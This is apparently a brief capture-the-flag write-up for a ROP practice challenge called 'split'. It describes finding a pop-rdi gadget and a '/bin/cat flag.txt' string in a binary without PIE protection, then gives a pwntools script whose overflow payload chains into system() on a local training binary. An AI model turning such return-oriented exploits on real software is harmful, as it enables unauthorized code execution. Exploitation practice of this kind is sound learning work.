




in this problem we also have a way to overflow the buffer. However, the usefulFuntion does not read the flag as the previous challenge


checking ROPgadgets, we acquire a way to manipulate rdi



checking the binary memory, we find /bin/cat flag.txt, how convenient



viewing hex data in ida grant us the exact address, given that the binary has no pie protection



```
#!/usr/bin/python3
from pwn import *

context.arch="amd64"
context.os="linux"
context.log_level="debug"

script='''
b*pwnme+77
b*usefulFunction+9
c
'''

# p=gdb.debug("./split", cwd=".", gdbscript=script)
p=process("./split", cwd=".")

payload=b"A"*40+p64(0x00000000004007c3)+p64(0x601060)+p64(0x000000000040074b)

p.recvuntil(">")
p.send(payload)

p.interactive()
```